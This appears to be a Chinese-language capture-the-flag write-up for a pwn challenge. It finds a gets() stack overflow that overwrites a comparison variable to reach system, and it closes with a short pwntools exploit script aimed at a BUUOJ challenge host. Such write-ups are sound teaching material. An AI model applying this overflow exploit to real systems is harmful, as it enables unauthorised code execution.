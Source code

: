 checksec看到保护全开

![image-20210410205054652](https://static.hack1s.fun/images/2021/04/10/image-20210410205054652.png)

看到IDA反编译代码

![image-20210410204948406](https://static.hack1s.fun/images/2021/04/10/image-20210410204948406.png)

这里的gets肯定是有可能溢出的，另外这里的check比较变量v5是否和fake_flag相等，相等就通过检查调用system

![image-20210410205109055](https://static.hack1s.fun/images/2021/04/10/image-20210410205109055.png)

所以思路应该是想要溢出v4修改变量v5

直接可以看到v4在rbp-0x70

v5在rbp-0x40

所以payload

```python
from pwn import *

io = remote('node3.buuoj.cn',26043)
payload = b'a'*0x30 + b"n0t_r3@11y_f1@g"
io.send(payload)
io.interactive()
```

